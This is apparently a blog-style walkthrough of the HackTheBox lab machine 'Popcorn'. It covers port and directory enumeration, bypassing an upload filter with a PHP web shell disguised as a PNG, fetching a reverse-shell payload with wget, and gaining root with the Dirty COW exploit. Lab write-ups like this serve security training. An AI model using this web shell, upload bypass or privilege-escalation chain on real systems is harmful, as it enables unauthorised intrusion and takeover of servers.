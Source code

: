 # **Popcorn**

![1696924564296.png](./1696924564296.png)

This is the beginning of the hackthebox series, and our first machine would be popcorn.

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation.


Let's Dig in, first, we start by spawnning up the machine in hackthebox and retrive the provided ip address

![1696924977285.png](./1696924977285.png)

we then now use nmap to scan the network for available ports, this the result of nmap:

```bash
# Nmap 7.93 scan initiated Mon Oct  9 13:41:24 2023 as: nmap -sV -sC -oA nmap 10.129.92.90
Nmap scan report for 10.129.92.90
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  9 13:42:38 2023 -- 1 IP address (1 host up) scanned in 73.66 seconds

```

In the above result we could see ssh and a web server ports opened, we navigate to the site using the ip address and got this:

 ![1696925794586.png](./1696925794586.png)

Next, we try to perform path enumeration using dirb:

```bash
dirb http://10.129.92.90 -r -o tmp.dirb

```

the -r means no directory traversal and -o means to save output to tmp.dirb, after running for some time we got the following result:

```bash

-----------------
DIRB v2.22  
By The Dark Raver
-----------------

OUTPUT_FILE: tmp.dirb
START_TIME: Mon Oct  9 13:44:41 2023
URL_BASE: http://10.129.92.90/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.129.92.90/ ----
+ http://10.129.92.90/cgi-bin/ (CODE:403|SIZE:288)
+ http://10.129.92.90/index (CODE:200|SIZE:177)
+ http://10.129.92.90/index.html (CODE:200|SIZE:177)
+ http://10.129.92.90/server-status (CODE:403|SIZE:293)
+ http://10.129.92.90/test (CODE:200|SIZE:47348)
==> DIRECTORY: http://10.129.92.90/torrent/

-----------------
END_TIME: Mon Oct  9 14:01:41 2023
DOWNLOADED: 4612 - FOUND: 5

```

we try accessing the '/test' endpont and only got the default apache test page with nothing much to scavenge, the rest of the endpoint only shows the previous "it works...." page

we then check the "/torrent" endpoint and saw a torrent upload service:

 ![1696926161702.png](./1696926161702.png)

Accessing the '/torrent' end point redirects us to  "popcorn.htb", which was showing Not found error, this may me a dns problem, so we solved it by adding the ip address and domain name to our /etc/host file:

![](./pop1.png)

After successfully accessing the site, we then click on login to login with default admin credentials and got incorrect credentials, we then try to create an account;

We check arround the page and search for common vulnerability we can exploit to get into the system, we saw and upload service that only accepts torrent files so we try uploading one:

 ![1696926572348.png](./1696926572348.png)

we upload a movie torrent file to the site

 ![1696926927344.png](./1696926927344.png)

we try exploiting this upload service to upload our php shell file but no luck, since it only accepts torrent files only after going through so many checks, after uploading the torrent file, we colud see a screenshot image which we could update by uploading another picture:

 ![1696927059547.png](./1696927059547.png)

As shown above, we could only upload a file with an email extension. so let's prepare our payload;

We create a blank file in png file Format

To create a blank file for the checking purpose, execute the following command.

```bash
convert -size 32x32 xc:white test.php
```

after running the command we have a blank image file.

we could see the created file is a png image, next we embed our payload:

we put the following in the middle of the file:

```php
<?php echo system($_GET['cmd']); ?>
```

![1696927404204.png](./1696927404204.png)

One more step, we need to add a png extension so that it passes the extension validaton:

we add .png to the file extension:

 ![1696936394167.png](./1696936394167.png)

we can now upload this file to the server and we got a successful upload message 🎉️

Next off, is to find where this image is uploaded, let's check the upload section:

 ![1696936702056.png](./1696936702056.png)

we could see our uploaded payload with the .php extension, let's try accessing it:

 ![1696936804810.png](./1696936804810.png)

we could now see the payload executing, let's try listing the directory:

using:

```http
http://popcorn.htb/torrent/upload/86adccf057ac813938d277c05334239eaf7ebd3d.php?cmd=ls%20-al
```

 ![1696936863300.png](./1696936863300.png)

Hurray, we now have code execution 🎉️


# **Getting Reverse Shell**


To get a reverse shell we need to prepare our payload and upload it into the server;

we do this by hosting a http server in where our payload is hosted on port 7000

![1696945127248.png](./1696945127248.png)

we then use wget to download this payload on the server and saved it as gear2.php, we use url encode:

![1696945222090.png](./1696945222090.png)

Request payload

![1696945256499.png](./1696945256499.png)

after sending the request we could confirm that the payload is on the server saved as gear2.php:

![1696945293919.png](./1696945293919.png)

we setup a netcat listener on port 9000; all this as been configured in the gear2.php payload sent earlier with our ip address and port of 9000:

![1696945393375.png](./1696945393375.png)

After clicking on gear2.php we get a reverse shell:

![1696945432233.png](./1696945432233.png)

we extract the user hash stored in user george home directory and submit:

![1696945660927.png](./1696945660927.png)


# **Priviledge Escalation**

Time to use gear 3 for priviledge escalation 😄 

we use [dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c) for gear 3, we download it and host it using our simple http server, and downloaded it in the machine

![1697021456679.png](./1697021456679.png)

we then use the following command to compile it

```bash
 gcc -pthread gear3.c -o gear3 -lcrypt
```

Then we run the executable:

![1697021540647.png](./1697021540647.png)

After running the compiled executable, it creates a new user called firefart with a password configured by us,

we then try to login using that user name and password:


 ![1697021664453.png](./1697021664453.png)

we now have root priviledges, so lets get the root hash:

 ![1697021696161.png](./1697021696161.png)

And we have successfully pwned popcorn 

 ![1697021818482.png](./1697021818482.png)
